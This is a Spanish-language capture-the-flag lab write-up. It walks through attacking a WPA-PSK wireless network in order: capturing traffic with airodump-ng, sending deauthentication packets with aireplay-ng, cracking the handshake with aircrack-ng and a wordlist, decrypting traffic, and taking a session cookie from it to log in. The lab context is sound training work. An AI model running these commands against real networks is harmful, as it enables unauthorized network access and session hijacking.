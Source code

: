 Si vemos con `airodump-ng` el **AP** usa **PSK** y opera en el canal **6** 

Primeramente nos vamos a poner a capturar trafico en el canal 6 y lo vamos a exportar para poder capturar el **handshake** `airodump-ng wlan0mon -c 6 -w captura`

Vamos a hacer ejecutar lo siguiente `iwconfig wlan0mon channel 6` 

Ahora vamos a emitir **15** paquetes de **Deautenticación** para que los clientes asociados se desconecten y cuando se vuelvan a conectar podremos capturar el **Handshake** `aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon`

Una vez se emiten y el cliente se reasocia obtenemos el **handshake** 

![](https://i.imgur.com/oHe4NrJ.png)

Ahora podemos usar `aircrack-ng` y el **rockyou** para poder encontrar la contraseña `aircrack-ng captura-01.cap -w ~/rockyou-top100000.txt` 

![](https://i.imgur.com/QY3ZXxR.png)

# What is the IP of the web server in the wifi-mobile network?

Si tenemos la contraseña del **AP** podemos desencriptar el trafico usando **airdecap-ng** <https://mikerega7.github.io/hacking-writeup-wifi/#espionaje> para esto simplemente le indicamos la captura el nombre del **AP** y la contraseña del **AP** 

![](https://i.imgur.com/ox1OFrd.png)

Ahora lo que vamos a hacer abrir el **wireshark** para ver la dirección **IP** `wireshark captura-01-dec.cap`

Hay podemos ver una **cookie** y una **IP** vamos a guardar la **cookie** 

![](https://i.imgur.com/U6feLYz.png)

# what is the flag after login in wifi-mobile?

Y bueno ahora después de todo esto que hicimos nos piden obtener la flag después de conectarnos al **AP** como nos están diciendo que nos conectemos vamos a usar `wpa_supplicant` empleando el **.conf** 

![](https://i.imgur.com/0S9vE5J.png)

Ahora de la misma forma vamos a usar el **wpa_supplicant** `wpa_supplicant -Dnl80211 -iwlan3 -c zi.conf` y una vez hecho nos vamos asignar **IP** con `dhclient wlan3 -v`

![](https://i.imgur.com/HMNacOA.png)

Ahora vamos a usar la **cookie** que tenemos y listo

# Is there client isolation in the wifi-mobile network?
